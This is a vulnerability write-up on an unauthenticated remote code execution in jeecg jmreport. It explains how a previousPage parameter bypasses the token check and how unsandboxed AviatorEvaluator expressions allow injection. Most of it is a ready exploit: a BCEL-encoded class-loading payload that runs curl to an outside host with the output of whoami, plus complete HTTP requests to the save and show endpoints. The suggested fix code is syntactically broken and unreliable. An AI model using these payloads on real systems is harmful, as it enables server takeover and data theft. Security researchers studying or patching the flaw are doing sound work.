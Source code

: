 # jeecg jmreport Unauthorized AviatorEvaluator Leads to RCE Vulnerability

reporter: extremefan,root012

## Vulnerability Analysis:

Cause of Unauthorized Privilege Escalation:

The issue arises from a flaw in the JimuReportTokenInterceptor class within the jmreport component of Jeecg, where there is an error in the authentication logic. The validation of the token's validity is performed after checking the `previousPage` parameter to determine if it should be returned. If the `previousPage` parameter is directly provided, it leads to bypassing the token check, thereby allowing unauthorized privilege escalation.

![image-20240815214735901](./asset/图片1.png)

The next step involves checking the `previousPage` parameter

![image-20240815214826809](./asset/图片2.png)



When the `previousPage` parameter is passed, the identity check immediately returns `true`, thereby bypassing the token validation. This allows an attacker to circumvent the intended security checks by simply providing a `previousPage` parameter.





Reason for Command Execution (RCE):

In Jeecg, the `ExpressUtil` class uses `AviatorEvaluator` to execute expressions directly without configuring any security policies. This lack of security measures leads to a potential AviatorScript injection vulnerability, where an attacker can execute arbitrary static methods by default.

![image-20240815215220727](./asset/图片3.png)

![image-20240815215430223](./asset/图片4.png)

Recommendations for Vendors to Address the Issue:

https://github.com/apache/hertzbeat/commit/8dcf050e27ca95d15460a7ba98a3df8a9cd1d3d2



```


​```
 AviatorEvaluatorInstance instance = AviatorEvaluator.getInstance();
        // 配置AviatorEvaluator使用LRU缓存编译后的表达式
        instance
                .useLRUExpressionCache(AVIATOR_LRU_CACHE_SIZE)
                .addFunction(new StrEqualFunction());

        // 配置Aviator语法特性集合
        instance.setOption(Options.FEATURE_SET,
                Feature.asSet(Feature.If,
                        Feature.Assignment,
                        Feature.Let,
                        Feature.StringInterpolation));

        // 配置自定义aviator函数
        instance.addOpFunction(OperatorType.BIT_OR, new AbstractFunction() {
            @Override
            public AviatorObject call(final Map<String, Object> env, final AviatorObject arg1,
                                      final AviatorObject arg2) {
           public String getName() {
            }
        });

        instance.addFunction(new StrContainsFunction());
        instance.addFunction(new ObjectExistsFunction());
        instance.addFunction(new StrMatchesFunction());
​```
```



## Vulnerability Demonstration: 

Writing to a Table via Unauthenticated Access

To demonstrate the vulnerability, I will use `curl` with additional data to exploit the unauthenticated access and write to a table. Here’s how it can be done:

payload：

```
=((c=(Class.forName('$$BCEL$$$l$8b$I$A$A$A$A$A$A$AeP$cbN$c2$40$U$3dCK$5bk$95$97$f8$7e$c4$95$c0$c2$s$c6$j$c6$NjbR$c5$88a\_$ca$E$86$40k$da$c1$f0Y$baQ$e3$c2$P$f0$a3$8cw$w$B$a2M$e6$de9$e7$9es$e6$a6\_$df$l$9f$ANq$60$p$8b$b2$8dul$a8$b2ib$cb$c46$83q$sB$n$cf$Z$b4J$b5$cd$a07$a2$$g$c8y$o$e4$b7$e3Q$87$c7$P$7egHL$d1$8b$C$7f$d8$f6c$a1$f0$94$d4e\_$q$MY$afqsQ$t$c8$t$3c$608$aax$D$ff$c9w$87$7e$d8s$5b2$Wa$af$5e$5d$a0$ee$e2$u$e0IB$G$z$YuU$f4$3f9$83$7d9$J$f8$a3$UQ$98$98$d8$n$dc$8a$c6q$c0$af$84z$d7$a2$f7$8e$95$c9$81$B$d3$c4$ae$83$3d$ec$3bX$c1$w$85$d2$90$n$3f$cflv$G$3c$90$M$a5$94$S$91$7b$dd$9c$853$U$e6$c2$fbq$u$c5$88$f2$ed$k$973P$ae$y$$$3f$a5$eb8$84N$7fT$7d$Z0$b5$GU$8b$90K$9dQ$cf$d6$de$c0$5e$d2$f1$SU$p$r5$d8T$9d\_$B$96$e9$G$9a$d2$da$a4R$e6$934$M$b0$de$91$a9$bdB$7b$fe$e37$W$fc$Wr$c8S$\_$d0$d1$89$v$d2$v$a5$fa$b5$l$d5$l$f2$9c$f6$B$A$A',true,new com.sun.org.apache.bcel.internal.util.ClassLoader()))) + ( c.exec('curl http://ip.port.xxx.xxx.io/`whoami`')))
```



```
POST /jeecg-boot/jmreport/save?previousPage=xxx&jmLink=YWFhfHxiYmI=&token=123 HTTP/1.1
Host: x.x.x.x:8088
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: application/json, text/plain, */*
Content-Type: application/json
Content-Length: 3456
 
 
{
    "loopBlockList": [],
    "area": false,
    "printElWidth": 718,
    "excel_config_id": "980882669965455363",
    "printElHeight": 1047,
    "rows": {
        "4": {
            "cells": {
                "4": {
                    "text": "=((c=(Class.forName('$$BCEL$$$l$8b$I$A$A$A$A$A$A$AeP$cbN$c2$40$U$3dCK$5bk$95$97$f8$7e$c4$95$c0$c2$s$c6$j$c6$NjbR$c5$88a\_$ca$E$86$40k$da$c1$f0Y$baQ$e3$c2$P$f0$a3$8cw$w$B$a2M$e6$de9$e7$9es$e6$a6\_$df$l$9f$ANq$60$p$8b$b2$8dul$a8$b2ib$cb$c46$83q$sB$n$cf$Z$b4J$b5$cd$a07$a2$$g$c8y$o$e4$b7$e3Q$87$c7$P$7egHL$d1$8b$C$7f$d8$f6c$a1$f0$94$d4e\_$q$MY$afqsQ$t$c8$t$3c$608$aax$D$ff$c9w$87$7e$d8s$5b2$Wa$af$5e$5d$a0$ee$e2$u$e0IB$G$z$YuU$f4$3f9$83$7d9$J$f8$a3$UQ$98$98$d8$n$dc$8a$c6q$c0$af$84z$d7$a2$f7$8e$95$c9$81$B$d3$c4$ae$83$3d$ec$3bX$c1$w$85$d2$90$n$3f$cflv$G$3c$90$M$a5$94$S$91$7b$dd$9c$853$U$e6$c2$fbq$u$c5$88$f2$ed$k$973P$ae$y$$$3f$a5$eb8$84N$7fT$7d$Z0$b5$GU$8b$90K$9dQ$cf$d6$de$c0$5e$d2$f1$SU$p$r5$d8T$9d\_$B$96$e9$G$9a$d2$da$a4R$e6$934$M$b0$de$91$a9$bdB$7b$fe$e37$W$fc$Wr$c8S$\_$d0$d1$89$v$d2$v$a5$fa$b5$l$d5$l$f2$9c$f6$B$A$A',true,new com.sun.org.apache.bcel.internal.util.ClassLoader()))) + ( c.exec('curl http://ip.port.xxx.xxx.io/`whoami`')))",
                    "style": 0
                }
            },
            "height": 25
        },
        "len": 96,
        "-1": {
            "cells": {
                "-1": {
                    "text": "${gongsi.id}"
                }
            },
            "isDrag": true
        }
    },
    "dbexps": [],
    "toolPrintSizeObj": {
        "printType": "A4",
        "widthPx": 718,
        "heightPx": 1047
    },
    "dicts": [],
    "freeze": "A1",
    "dataRectWidth": 701,
    "background": false,
    "name": "sheet1",
    "autofilter": {},
    "styles": [
        {
            "align": "center"
        }
    ],
    "validations": [],
    "cols": {
        "4": {
            "width": 95
        },
        "len": 50
    },
    "merges": [
        "E4:F4",
        "B4:B5",
        "C4:C5",
        "D4:D5",
        "G4:G5",
        "H4:H5",
        "I4:I5",
        "D1:G1",
        "H3:I3"
    ]
}
```



Afterward, through unauthenticated access to the table, trigger the AviatorScript code execution vulnerability.

```
POST /jeecg-boot/jmreport/show?previousPage=xxx&jmLink=YWFhfHxiYmI= HTTP/1.1
Host: x.x.x.x:8088
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: application/json, text/plain, */*
Content-Type: application/json
Content-Length: 42
 
 
{
    "id": "980882669965455363"
}
```

